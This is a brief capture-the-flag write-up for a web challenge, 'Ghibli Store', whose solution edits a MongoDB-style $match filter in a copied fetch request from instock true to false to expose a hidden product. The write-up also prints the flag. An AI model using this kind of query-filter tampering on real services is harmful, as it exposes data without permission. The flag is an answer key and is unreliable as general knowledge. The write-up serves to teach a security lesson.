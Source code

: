 # Ghibli Store :: 001 100pts

BRIEFING
We're working on a new Ghibli store to sell the cutest plush toys you'll find on the internet! We don't have all the products in stock yet, can you find the hidden item?

Challenge Host: http://ghibli.pwn.site:8035/

## Solution 

Retrieve the following page
![alt text](image.png)

Utilizing browser development tools, identify a POST request for the products with a filter matching 'true' on 'instock'

![alt text](image-1.png)

Copy the request as a fetch and modify the filter to be 'false'

```JavaScript
fetch("http://ghibli.pwn.site:8035/api/products", {
  "headers": {
    "accept": "*/*",
    "accept-language": "en-US,en;q=0.9",
    "cache-control": "no-cache",
    "content-type": "application/json",
    "pragma": "no-cache"
  },
  "referrer": "http://ghibli.pwn.site:8035/",
  "referrerPolicy": "strict-origin-when-cross-origin",
  "body": "{\"query\":{\"$match\":{\"instock\":false}}}",
  "method": "POST",
  "mode": "cors",
  "credentials": "omit"
});
```

![alt text](image-2.png)
flag of `flag{s1mpl3_m47ch_w45_4ll_1t_n33d3d}`


